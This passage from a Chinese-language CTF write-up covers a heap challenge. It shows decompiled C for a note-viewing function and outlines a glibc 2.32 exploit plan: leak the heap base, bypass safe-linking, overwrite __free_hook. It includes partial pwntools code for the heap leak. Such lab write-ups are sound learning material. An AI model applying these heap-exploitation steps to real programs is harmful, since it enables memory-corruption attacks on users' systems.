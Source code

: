 ```plain
unsigned __int64 show_note()
{
  unsigned int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Index: ");
  __isoc99_scanf("%u", &v1);
  if ( v1 <= 0xF )
  {
    if ( notes[v1] )
      puts((const char *)notes[v1]);
    else
      puts("Page not found.");
  }
  else
  {
    puts("There are only 16 pages in this notebook.");
  }
  return __readfsqword(0x28u) ^ v2;
}
```

题目环境glibc2.32，然后漏洞很明显，只不过更改环境比较麻烦，然后就是比以前多了safe-linking机制

### 思路

这个题思路很简单，就是泄露完heap后绕过后面safe-linking，然后直接打free\_hook

### 详细流程

因为我用的ubuntu20，所以这里第一步就是按照上面演示的方法去更换libc，然后就可以开始做题了

```plain
for i in range(7):
    add(i,0x80)

add(7,0x80)
add(8,0x80)

delete(0)
show(0)

heap_addr=u64(p.recv(5)[-6:].ljust(8,'\x00'))<<12
leak('heap_addr ',heap_addr)
```

泄露个堆基地址
